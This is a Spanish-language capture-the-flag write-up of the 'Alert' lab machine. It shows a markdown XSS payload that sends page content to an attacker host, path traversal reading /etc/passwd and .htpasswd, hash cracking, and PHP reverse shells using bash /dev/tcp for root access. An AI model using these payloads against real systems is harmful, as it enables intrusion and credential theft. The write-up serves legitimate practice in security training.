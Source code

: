 # Alert
```
sudo nmap -sS -p- -vvv -Pn -n --min-rate 5000 MACHINE_IP
```

Se descubre el puerto 22 y 80. El puerto 80 aloja una página cuyo dominio debemos registrar en /etc/hosts.

Primero podemos hacer fuzzing de directorios sobre la web y de subdominios, encontramos un subdominio llamado statistics.alert.htb.

Visitando este subdominio, se requiere de autenticación que se resiste a pruebas básicas.

En la web vemos que podemos subir archivos de markdown, probamos a subir otras extensiones y no se puede.
Investigando veo que se puede ejecutar xss en markdown, es decir colar js con etiquetas script de html.

## Explotación del XSS en markdown
probamos el siguiente archivo en markdown
```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php', false);
req.send();
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://IP_ATACANTE:8080/?content=' + btoa(req.responseText),
true);
req2.send();
```
Esto debe mandar el contenido del archivo messages.php al servidor del atacante.
Enviamos el md y le damos a compartir.
Si el admin que está detrás visita los enlaces que la gente le manda en el apartado de contacto podría funcionar el ataque.
Es el caso así que vemos en el lado del servidor el base64 del contenido del archivo messages.php

al decodearlo vemos lo siguiente:
```php
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-
34.txt'>2024-03-10_15-48-34.txt</a></li></ul>␍
```

Vemos que messages.php tiene la opción de incluir ficheros de la máquina, podemos probar a modificar el archivo md para provar a apuntar en vez de solamente 
messages.php probar a apuntar a messages.php?file=../../../../../../etc/passwd
y en efecto funciona.

Al parecer hay un archivo de configuración de apache llamado el Apache virtual host configuration file que está localizado en /etc/apache2/sites-available/000-default.conf 
así que aprovechandonos de que podemos ver archivos internos vamos a visualizar el contenido de este archivo y ver que no depara.

En el interior de este archivo de configuración, vemos la ruta bajo el nombre de AuthUserFile /var/www/statistics.alert.htb/.htpasswd que tiene muy buena pinta

Aprovechando la misma vulnerabilidad de ver ficheros internos apuntamos ahora a este para descubrir que estan las credenciales del usuario albert y un hash de tipo MD5 de su 
contraseña.

guardamos el hash en un fichero y craqueamos con hashcat y rockyou.txt 
```bash
hashcat -a 0 -m 1600 hash_file /usr/share/wordlists/rockyou.txt
```
la contraseña es manchesterunted.
Verificamos que podemos entrar a la web administrativa del subdominio y probamos las credenciales en el ssh y entramos.
en /home/albert se encuentra la flag user.txt

## Escalada de privilegios
Moviendonos a /var/www/ vemos que el usario albert sólo tiene acceso a la carpeta alert.htb y no a statistics.alert.htb, pero vemos que si podemos escribir en directorios
de propiedad del usuario www-data que si que tiene acceso a statistics.alert.htb así que instalamos un shell.php y apuntamos a él desde la web para obtener acceso como www-data
```php
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.16.52/4444 0>&1'")
?>
```

Una vez como www-data revisamos el subdominio pero no hay nada de valor.

Vemos la lista de procesos en modo jerarquico con el comando en busca de procesos de root que podamos echar un ojo
```bash
ps -ef --forest
```

aqui se puede ver algunas cosas como tareas CRON de root pero nos llama la atención bajo root algo que está ocurriendo en el puerto 8080.
Investigamos esto con lo siguiente:
```bash
ps -ef | grep 8080
```

Con esto averiguamos en el output que lo que está ocurriendo se encuentra en la ruta /opt/website-monitor.
Toda la estructura de directorios de este proyecto web es propiedad de root, y como el usuario albert podmos acceder a ello así que podemos buscar la manera de instalar
una shell, con el siguiente comando para ver si tenemos escritura en algún sitio:
```bash
find . -writable
```
Y en efecto, tenemos escritura en el direcotrio config entre otros,
colamos una reverse shell llamada shell.php en /opt/website-monitor/config/shell.php para poder apuntar a ella desde la web.

Ahora solo queda poder ver la web desde nuestra máquina de atacante y para ello necesitamos forwardear el puerto 8080 de albert hacia nuestra máquina, para ello,
ejecutamos lo siguiente:
```bash
ssh albert@alert.htb -L 8080:IP_ATACANTE:8080
```

Una vez aqui nos ponemos el listener
```bash
nc -nlvp 4444
```
y accedemos en la url al endpoint creado en http://localhost:8080/config/shell.php

AND WE ARE INSIDE!!!
Sólo falta encontrar el root.txt que se halla en el directorio /root/root.txt
